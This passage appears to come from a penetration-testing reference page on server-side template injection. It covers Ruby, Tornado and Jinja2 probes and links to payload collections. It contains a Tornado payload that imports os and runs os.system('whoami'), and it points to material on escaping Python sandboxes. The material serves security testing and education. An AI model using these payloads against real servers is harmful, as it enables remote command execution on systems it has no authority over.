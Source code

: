 ```
```
**More information**

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby]]

### Other Ruby

![[../../images/image (4).png|]]

*[[https://miro.medium.com/v2/resize:fit:640/format:webp/1*VeZvEGI6rBP_tH-V0TqAjQ.jpeg|https://miro.medium.com/v2/resize:fit:640/format:webp/1\*VeZvEGI6rBP\_tH\-V0TqAjQ.jpeg]]*


![[../../images/image (5).png|]]

*[[https://miro.medium.com/v2/resize:fit:640/format:webp/1*m-iSloHPqRUriLOjpqpDgg.jpeg|https://miro.medium.com/v2/resize:fit:640/format:webp/1\*m\-iSloHPqRUriLOjpqpDgg.jpeg]]*


- More info in [[https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756|https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756]]

### Python

Check out the following page to learn tricks about **arbitrary command execution bypassing sandboxes** in python:

[[../../generic-methodologies-and-resources/python/bypass-python-sandboxes/]]

### Tornado (Python)

- `{{7*7}} = 49`
- `${7*7} = ${7*7}`
- `{{foobar}} = Error`
- `{{7*'7'}} = 7777777`

```python
{% raw %}
{% import foobar %} = Error
{% import os %}

{% import os %}
{% endraw %}





{{os.system('whoami')}}
{{os.system('whoami')}}
```
```
**More information**

- [[https://ajinabraham.com/blog/server-side-template-injection-in-tornado|https://ajinabraham.com/blog/server-side-template-injection-in-tornado]]

### Jinja2 (Python)

[[http://jinja.pocoo.org|Official website]]

> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.

- `{{7*7}} = Error`
```